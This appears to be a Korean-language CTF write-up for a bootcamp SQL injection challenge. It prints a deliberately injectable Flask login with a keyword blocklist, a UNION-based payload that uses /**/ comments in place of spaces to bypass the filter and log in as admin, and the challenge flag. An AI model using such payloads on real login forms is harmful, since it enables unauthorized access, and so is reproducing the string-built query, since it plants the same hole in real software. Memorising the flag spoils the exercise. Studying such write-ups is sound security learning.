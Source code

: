 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.4 SQLi_WAF_4"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-29T15:30:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10033/>

![3.4 SQLi WAF 4 1](/assets/images/writeup/web-hacking/knock-on/3-4_SQLi_WAF_4_1.png)

![3.4 SQLi WAF 4 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.4 SQLi WAF 4 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '"', ' ', '=', '<', '>', '\\']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

### login()

---

```python
filtering_list = ['or', 'and', '"', ' ', '=', '<', '>', '\\']
```

등호, 부등호, 백슬래시가 추가되었고, 작은따옴표는 다시 사용 가능해짐

|

|

|

## 문제 풀이

```sql
' union select 1,(select username from user limit 1,1),3 #
```

백 슬래시는 사용 불가능하고, 작은 따옴표는 사용 가능하기 때문에 username 부분에서 쿼리를 실행할 수 있게됨

|

```sql
'/**/union/**/select/**/1,(select/**/username/**/from/**/user/**/limit/**/1,1),3/**/#
```

공백은 사용 불가능하기 때문에 주석으로 대체

|

|

|

## Exploit

```python
username: '/**/union/**/select/**/1,(select/**/username/**/from/**/user/**/limit/**/1,1),3/**/#

password: 1
```

|

|

### FLAG

---

```python
K0{WAF_is_no_use!}
```

|

---